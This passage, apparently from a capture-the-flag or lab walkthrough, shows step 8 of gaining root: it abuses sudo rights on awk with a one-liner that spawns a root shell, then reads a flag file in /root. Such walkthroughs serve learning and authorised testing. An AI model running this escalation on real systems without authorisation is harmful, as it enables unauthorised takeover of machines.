


8. Gain root access using awk
Looking on the internet we'll find
here
that you can abuse SUDO privileges and gain root access using “awk”.

Introduce that command on your shell.
$
sudo
awk
'BEGIN {system("/bin/sh")}'
# cd /root
# cat final.txt
Output:

Index